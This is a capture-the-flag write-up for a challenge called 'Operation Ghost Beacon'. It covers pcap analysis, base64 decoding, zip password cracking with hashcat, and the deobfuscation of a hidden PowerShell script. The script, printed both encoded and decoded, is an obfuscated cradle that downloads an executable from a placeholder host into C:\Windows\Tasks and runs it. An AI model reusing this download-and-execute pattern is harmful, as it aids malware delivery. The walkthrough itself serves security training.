


# C-12: Operation Ghost Beacon
> A defunct satellite has mysteriously resumed broadcasting, sending what appears to be encrypted PowerShell payloads to unknown destinations. One of these transmissions contains a fragmented signal—disguised as harmless code. Your mission: deobfuscate the transmission, reconstruct the payload, and extract the embedded flag before it disappears into the static.
> [transmission.pcap](transmission.pcap)

Opening the provided packet capture shows 25 HTTP requests, all of which return either `404 Not Found` or `501 Unsupported Method`. The first 15 are to `/page0.html` through `/page14.html`. The next 5 are POST requests to `/submit` with `username=user0&password=pass0` through to `username=user4&password=pass4`. Several various files are requested, followed by a suspicious request to `/secure_data/download.php?doc=aHR0cHMlM0ElMkYlMkZuemNzYy0yMDI1LnMzLmFwLXNvdXRoZWFzdC0yLmFtYXpvbmF3cy5jb20lMkZjdGYtZG9jLnppcA==`.

Decoding this b64 gives the link [https://nzcsc-2025.s3.ap-southeast-2.amazonaws.com/ctf-doc.zip](https://wayback-api.archive.org/web/20250714092411/https://nzcsc-2025.s3.ap-southeast-2.amazonaws.com/ctf-doc.zip.
This is a password-protected zip archive containing `CTF.docx`.

Now that we have found a host that isn't the `127.0.0.1`, we can try the other endpoints specified in the capture. Trying `/page0.html` gives a [seemingly meaningless site](https://wayback-api.archive.org/web/20250714093115/https://nzcsc-2025.s3.ap-southeast-2.amazonaws.com/page0.html). This is similar to the pages for almost the other numbers, except for [page8.html](https://web.archive.org/web/20250714093233/https://nzcsc-2025.s3.ap-southeast-2.amazonaws.com/page8.html). In the source of this page is a commented-out `img` tag to [c4126F.jpeg](https://web.archive.org/web/20250714093431/https://nzcsc-2025.s3.ap-southeast-2.amazonaws.com/c4126F.jpeg).

Checking the metadata of the image with `exiftool` gives us:


This endpoint does not exist on the server, but the previous `/secure_data/` request used base 64 encoding for the path. Decoding this again gives `aW0500bw.txt`. Entering this into the AWS site gives [[encoded_list.txt]]. These are also base64 encoded, and decoding this gives [[decoded_list.txt]] which is a wordlist.
Using `zip2john` to convert `ctf-doc.zip` into a hash, we can feed it into a hash cracker such as hashcat:

`hashcat -m 13600 -a 0 -w 3 ctf-doc.zip.hash decoded_list.txt --show`

This reveals the password to be `v!PhY.qG2/H8cb9`. Extracting the archive, and trying to open the document in Word reveals that the file is corrupted. 
Running `file` reveals that it is in fact another zip file. Extracting this gives a standard Word hierarchy of XML files.

Looking through them all, there is a curious string error in `word/_rels/document.xml.rels`:


Entering this on the AWS site gives an [access denied page](https://web.archive.org/web/20250714095432/https://nzcsc-2025.s3.ap-southeast-2.amazonaws.com/6a992d5529f459a44fee58c733255e86.html). Once again in the comments there is finally the PowerShell script alluded to in the challenge description:
```ps
 (((((([char]34+'JGZfNDM1MyA9ICgiezF9ezB9ezJ9ezN9ezR9ezV9ezd9ezZ9IiAtZiAnW0FFRicsICdGTEFHJywgJzlDRCcsICdCMjcnLCAnNkY4JywgJzNENScsICdleGUnLCAnQV0uJykKJGl3cl83MDQ3ID0gKCdJJyArICduJyArICd2JyArICdvJyArICdrJyArICdlJyArICctJyArICdXJyArICdlJyArICdiJyArICdSJyArICdlJyArICdxJyArICd1JyArICdlJyArICdzJyArICd0JykKJiAke2l3cl83MDQ3fSAoJ2gnICsgJ3QnICsgJ3QnICsgJ3AnICsgJ3MnICsgJzonICsgJy8nICsgJy8nICsgJ2UnICsgJ3gnICsgJ2EnICsgJ20nICsgJ3AnICsgJ2wnICsgJ2UnICsgJy4nICsgJ2MnICsgJ28nICsgJ20nICsgJy8nICsgJ3AnICsgJ2EnICsgJ3knICsgJ2wnICsgJ28nICsgJ2EnICsgJ2QnICsgJy4nICsgJ2UnICsgJ3gnICsgJ2UnKSAtT3V0RmlsZSAiQzpcV2luZG93c1xUYXNrc1wkZl80MzUzIgomICJDOlxXaW5kb3dzXFRhc2tzXCRmXzQzNTMi'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\""; //U1c0Z2JXbGtibWxuYUhRbmN5QmpiMlJsTENCMGFHVWdhSFZ1ZENCaVpXZHBibk1zQ2xkcGRHZ2dZbmwwWlhNZ1lXNWtJR2hoWTJ0eklHRnVaQ0J6YVd4bGJuUWdjMmx1Y3k0S1FTQm1iR0ZuSUdOdmJtTmxZV3hsWkNCcGJpQnNZWGxsY25NZ1pHVmxjQ3dLVG04Z2NtVnpkQ3dnYm04Z2NHRjFjMlVzSUc1dklIUnBiV1VnWm05eUlITnNaV1Z3TGdvS1JuSnZiU0J6ZEdWbmJ5Qm9hVzUwY3lCMGJ5QndiM0owSUhOallXNGdjR2x1Wnl3S1JXRmphQ0JqYkhWbElIVnVabTlzWkhNZ1lTQm9hV1JrWlc0Z2MzUnlhVzVuTGdwU1pYWmxjbk5wYm1jZ2RHbHRaU3dnZDJVZ1luSmxZV3NnWldGamFDQjNZV3hzNG9DVUNrOXVaU0J6YUdWc2JDd2diMjVsSUd4bFlXc3NJSGRsSUdKeVpXRmphQ0IwYUdWdElHRnNiQzRLQ2s1dklIQnlhWHBsSUd4cGEyVWdkSEoxZEdnc0lHNXZJSFJvY21sc2JDQnpieUJ5WVhjc0NrTlVSam9nZEdobElHaGhZMnRsY3VLQW1YTWdZWEowSUc5bUlIZGhjaTQ9 --/>
```

The second section of base64 decodes to more base64, which decodes to a poem:
```
In midnight's code, the hunt begins,
With bytes and hacks and silent sins.
A flag concealed in layers deep,
No rest, no pause, no time for sleep.

From stego hints to port scan ping,
Each clue unfolds a hidden string.
Reversing time, we break each wall—
One shell, one leak, we breach them all.

No prize like truth, no thrill so raw,
CTF: the hacker’s art of war.
```
The first section decodes to more PowerShell:
```
$f_4353 = ("{1}{0}{2}{3}{4}{5}{7}{6}" -f '[AEF', 'FLAG', '9CD', 'B27', '6F8', '3D5', 'exe', 'A].')
$iwr_7047 = ('I' + 'n' + 'v' + 'o' + 'k' + 'e' + '-' + 'W' + 'e' + 'b' + 'R' + 'e' + 'q' + 'u' + 'e' + 's' + 't')
& ${iwr_7047} ('h' + 't' + 't' + 'p' + 's' + ':' + '/' + '/' + 'e' + 'x' + 'a' + 'm' + 'p' + 'l' + 'e' + '.' + 'c' + 'o' + 'm' + '/' + 'p' + 'a' + 'y' + 'l' + 'o' + 'a' + 'd' + '.' + 'e' + 'x' + 'e') -OutFile "C:\Windows\Tasks\$f_4353"
& "C:\Windows\Tasks\$f_4353"
```

This can be assembled to give the final command (and the flag):
`Invoke-WebRequest https://examples.com/payload.exe -OutFile "C:\Windows\Tasks\FLAG[AEF9CDB276F83D5A].exe"`